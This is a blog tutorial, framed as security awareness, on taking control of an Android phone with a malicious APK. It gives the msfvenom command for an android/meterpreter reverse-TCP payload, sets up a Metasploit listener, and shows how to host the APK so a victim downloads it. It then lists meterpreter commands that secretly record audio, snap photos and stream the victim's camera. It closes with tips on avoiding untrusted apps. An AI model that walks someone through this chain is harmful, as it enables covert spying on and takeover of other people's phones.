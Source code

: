 
<a href="https://github.com/vinagrsec">About</a> | <a href="">Posts</a>

<p><span style="float: left; width: 0.8em; font-size: 600%; font-family: courier, courier; line-height: 80%;">W</span>hat can happen to your android phone when you download an android application from an untrusted source? What would be its impact on your phone? Well, the results are pretty scary. You won't even know what is going on in the background of your android phone when you download a malicious application.</p>

<p>In this article, we will learn how an attacker can take over control on your phone when you install an application from untrusted sources. We will learn about the approach he/she can take and the results. So, let's begin.</p>

<p><em><strong>Note:</strong> Before we proceed, please keep in mind that this tutorial/article is just for an educational purpose. This is to make everyone aware about the consequences of using android application from an untrusted/unknown sources.</em></p>

<p>I will be performing the process in my own network only. But, one can perform the attack process in any network either LAN or WAN (External network). In this process, three actors are involved:</p>

<ul id="block-400dce76-fd3e-48ca-9918-fe47222769a8"><li>Kali Linux Machine<strong> (Attacker)</strong></li><li>Malicious Android application<strong> (APK)</strong></li><li>Android Phone<strong> (Victim)</strong></li></ul>

<p><em><strong>Note:</strong> Attacker and Victim are on the same network here i.e. 192.168.172.x.</em></p>

<p><strong>Step-1: Creating Malicious Payload</strong></p>

<p>You need to create a malicious android payload first. For this, login to your Kali Linux machine and follow the below command (Hope you already have installed the Kali Linux in your PC. If not, you can find tons of tutorial for installing Kali Linux over internet. I will not be wasting your time here :-D)</p>

<p><strong>#<code>msfvenom -p android/meterpreter/reverse_tcp LHOST=&lt;ip-address&gt; LPORT=&lt;any unused port&gt; -f raw &gt; myandroid.apk</code></strong></p>

![image-1](https://user-images.githubusercontent.com/92144178/136511602-460ffb67-f397-43f4-9dc5-80336e06afc8.png)

<p>"<em>Msfvenom, here is a command line instance of Metasploit that is used to generate and output all of the various types of shell code that are available in Metasploit.</em>"</p>

<strong>•	-p:</strong> Payload <br><strong>•	LHOST:</strong> Local Host <br><strong>•	LPORT:</strong> Local Port <br><strong>•	-f:</strong> Format
 

<p><strong>Step-2: Launch Metasploit Framework</strong></p>

<p>Once you create your own APK, it's time launch metasploit framework using msfconsole command in Kali linux machine.</p>

<p>"<em>The Metasploit Framework is a Ruby-based, modular penetration testing platform that enables you to write, test, and execute exploit code. The Metasploit Framework contains a suite of tools that you can use to test security vulnerabilities, enumerate networks, execute attacks, and evade detection.</em>"</p>

<p>Once the Metasploit framework is launched, you need to use multi/handler, which is a stub that handles exploits launched outside of the framework.</p>

![image-2](https://user-images.githubusercontent.com/92144178/136511950-a4fd8947-33f7-4ae3-b1e3-0650d921a334.png)

<p><em><strong>Note:</strong> Make sure you're using the same payload which you have used while creating the malicious apk in Step-1.</em></p>

<p><strong>Step-3: Host the Malicious Android Application</strong></p>

<p>Now, handler is running. You need to host your malicious android application to somewhere so that victim can download it in his/her android phone.</p>

<p>As this process is only for our own network, you can host it there only. For this you can use one python's module called SimpleHTTPServer.</p>

<p>"<em>Python’s SimpleHTTPServer is the classic quick solution for serving the files in a directory via HTTP (often, you’ll access them locally, via localhost).</em>"</p>

<p><strong>#<code>python -m SimpleHTTPServer 8080</code></strong></p>

![image-3](https://user-images.githubusercontent.com/92144178/136512500-039235d0-94dc-42bc-9719-1e1cdd726000.png)

<p><em><strong>Note:</strong> The above command should be run under the same directory where the malicious android application is kept.</em></p>

<p><strong>Step-4: Download the Hosted Malicious APK on Android Phone</strong></p>

<p>Now, download the malicious android application using the following URL in your android phone's browser. <em>(Please remember the IP address in the URL is your Kali Linux machine local IP address)</em></p>

<p><strong><code>http://192.168.172.32:8080/myandroid.apk</code></strong></p>

![Screenshot_20211007-131743_Chrome](https://user-images.githubusercontent.com/92144178/136513557-054fb4a3-ad08-4ebb-81fa-9d08e687fc6c.jpg)
<br>
<p>Once the hosted APK is accessed from your android phone, you can see the logs generated in Kali Linux for SimpleHTTPServer.</p>

![simple-http-server-log](https://user-images.githubusercontent.com/92144178/136512906-a0d5fcd8-d392-42f9-a399-3dd439cae55e.png)


<p><strong>Step-5: Install and Access the Android Application</strong></p>

<p>Once the apk is downloaded, install it and click on it.</p>

![combined-package-installer-and-file-resized-2](https://user-images.githubusercontent.com/92144178/136516291-b3873611-e311-4f58-9bff-560e8cdcf2f3.jpg)


<p><strong>Step-6: Et Voilà !..You Got the Control</strong></p>

<p>Once you click on the application, you can look into your Kali Linux machine. You must have got the meterpreter session. That means, you have the control on victim's android phone.</p>

![image-4](https://user-images.githubusercontent.com/92144178/136516512-5136ce39-c12f-40f5-a57a-ccb6b62fbf27.png)

<p><strong>Step-7: Get Ready for the Killing</strong></p>

<p>Now, you can type "help" command to see what you can do with the victim's phone.</p>

![help-all-combined](https://user-images.githubusercontent.com/92144178/136519833-ceb86a4e-0e2b-4133-bafe-76c85cb73274.png)

<p><strong>Step-8: Sneak Peek</strong></p>

<p>As you can see, you can run numerous commands on the hacked android phone. You can dump all the contact numbers, SMS and other sensitive data. You can record the audio, switch ON the camera and even run a live webcam on victim's phone. Victim will be totally unaware about it. Here're the command below you can run to check:</p>

<p><strong>meterpreter&gt;record_mic</strong>  --&gt; To record the audio</p>
<p><strong>meterpreter&gt;webcam_snap</strong>  --&gt; To capture the image from the camera</p>
<p><strong>meterpreter&gt;webcam_stream</strong>  --&gt; To run live camera/video</p>

<p>As you can see, how scary it can be if you download the android application from unknown/untrusted sources.</p>
<br>
<p><strong>Conclusion</strong></p>

<p>So, what we learned from the activity we've done is:</p>

<ul><li>Never download any android application from unknown/untrusted sources.</li><li>Always download the application from Google Play Store.</li><li>Make sure your installed application gets scanned with Google Play Protect.</li><li>Disable Installation of Unknown applications in phone Settings.</li></ul>


<p>So, this is it for now. I hope this article was insightful. In the 2nd part, we will learn more sophisticated way to create malicious android application. Stay tuned..!!</p>
<br>
<p><strong>Reference</strong></p>

<li><a href="https://www.offensive-security.com/metasploit-unleashed/">https://www.offensive-security.com/metasploit-unleashed/</a></li>

<br>
<p><strong>Upcoming Blog - How to Hack an Android Phone using an Malicious Android Application (Part-2)</strong></p>
<br>
<script src="https://utteranc.es/client.js"
        repo="vinagrsec/android-hacking"
        issue-term="pathname"
        theme="github-light"
        crossorigin="anonymous"
        async>
</script>


